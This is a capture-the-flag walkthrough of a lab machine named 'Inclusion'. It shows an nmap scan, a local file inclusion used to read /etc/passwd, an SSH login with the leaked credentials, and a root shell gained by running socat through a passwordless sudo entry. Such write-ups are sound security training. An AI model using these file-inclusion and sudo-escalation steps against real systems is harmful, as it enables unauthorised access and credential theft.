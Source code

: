 ![](Images/laCoyOK.png)
What we can learn from this machine :
* enumerations
* local-file-inclusion (LFI)
* socat

```
# Nmap 7.91 scan initiated Fri Jun 11 15:50:08 2021 as: nmap -sC -sV -sT -A -oN nmap/nmap-output 10.10.65.107
Nmap scan report for 10.10.65.107
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 11 15:50:44 2021 -- 1 IP address (1 host up) scanned in 36.00 seconds
```
Looks like we got the port 80 http website named **My blog** and port 22 ssh.

![](Images/web.png)

Let's look into that blog posts. After we change into that post. You can see our url change into the **article?name=hacking** looks like file inclusion.

Documentation abot LFI : https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/

Let's try to get **/etc/passwd** list from this.

![](Images/passwd.png)

Looks like we got our username:password let's try to log into our user through ssh.

```bash
─[visith@parrot]─[~/CTF/thm/Inclusion]
└──╼ $ssh falconfeast@10.10.65.107
The authenticity of host '10.10.65.107 (10.10.65.107)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.65.107' (ECDSA) to the list of known hosts.
falconfeast@10.10.65.107's password: 
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```
We got the user flag let's get the root privilege. Before running any of the enumeration scripts. Let's look what we can run.

```bash
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
**socat** looks like we can run socat without passwd. Let's visit to *GTFObins* and grab a command.

https://gtfobins.github.io/gtfobins/socat/#sudo

![](Images/gtfobins.png)

```bash
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
cd /root
ls
root.txt
```

Thx for reading !! 
Have a nice day